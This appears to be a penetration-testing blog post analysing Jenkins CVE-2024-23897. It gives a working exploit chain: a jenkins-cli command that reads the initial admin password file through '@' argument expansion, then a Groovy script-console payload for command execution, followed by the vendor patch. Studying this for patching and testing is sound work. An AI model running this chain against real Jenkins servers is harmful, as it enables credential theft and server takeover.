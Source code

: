 ```yaml
---
title: "Compromise Jenkins reading files CVE-2024-23897"
description: "This article details how a simple vulnerability discovered in late January 2024 could allow an attacker to compromise Jenkins instances."
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Penetration Testing", "Pentest", "Audit"]
---
```


# 💣 From a minor verbose error to full compromise

## The origin

On **January 25, 2024**, researchers from Sonar published 2 vulnerabilities related to the leader in open-source continuous integration and continuous deployment (CI/CD) software: **Jenkins**.

Jenkins plays a central role in **automating software development processes** for a large part of the industry, holding about **44% market share in 2023**. The potential impact of these vulnerabilities is therefore **significant**.

The most concerning flaw, identified as **CVE-2024-23897**, allows unauthenticated attackers to read limited data from arbitrary files and "read-only" authorized attackers to access an entire file on the Jenkins server.

Two vulnerabilities are explained:

- The vulnerability **CVE-2024-23897**:
    - A CVSS score of **9.8/10** (quite concerning) 😮
    - An anonymous attacker can read a limited portion of local files.
- The vulnerability **CVE-2024-23898**:
    - A CVSS score of 8.8/10
    - Allows an attacker to execute arbitrary CLI commands by enticing a victim to click on a malicious link (CSRF).

## In short

The most problematic vulnerability is the first one: **CVE-2024-23897**

- Unauthenticated attackers can read **the first lines of local files** present on the server.
- Authenticated "read-only" attackers can access the entire files.
- This vulnerability can be converted into RCE in several ways:
    - By reading files containing the default password
    - By elevating privileges to admin
    - By reading an SSH key
    - By retrieving secrets on the machine
    - Etc...

Jenkins provides other means to obtain direct command execution on its blog: https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Exploiting the first vulnerability is quite straightforward.

### Vulnerable docker

It's possible to test with vulnerable versions via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environment

First, retrieve the Jenkins utility jenkins-cli.jar via command line.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```
![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Vulnerable code

The code below details the vulnerable code.

The function checks if the argument starts with the `@` character, and if so, reads the file at the path following the `@` and creates a new argument for each line.

```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

This means that if an attacker can control an argument, they can extend it to a number of arguments from an arbitrary file on the Jenkins instance.

Hence, exploiting the `expandAtFiles()` function of arg4j displaying a verbose error when attempting to read the file is possible.

### Arbitrary reading...

The command below allows an unauthenticated user to retrieve the first line of the file `/var/jenkins_home/secrets/initialAdminPassword`

```java
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![File reading](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)


### ...to RCE

Thus, it's possible to retrieve the default administrator password if it hasn't been changed.

![Admin connexion](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)

Then, it's possible to log into `/script` to execute our commands.

![Remot code execution](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)


The code below allows the execution of the `/bin/id` command.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

To conclude, a demonstration is available just below!

### Recommended actions

The Jenkins security team has corrected CVE-2024-23897 by adding a secure configuration disabling the `expandAtFiles` feature.

The following line is removed:

```java
    return new CmdLineParser(this);
```

And replaced by the following lines:

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

The second vulnerability `CVE-2024-23898`, a direct consequence of the first, has been fixed by adding an origin check to the WebSocket mechanism.

Patch quickly !

### Demonstration

Demonstration with the elements detailed above.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploiting Jenkins" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/
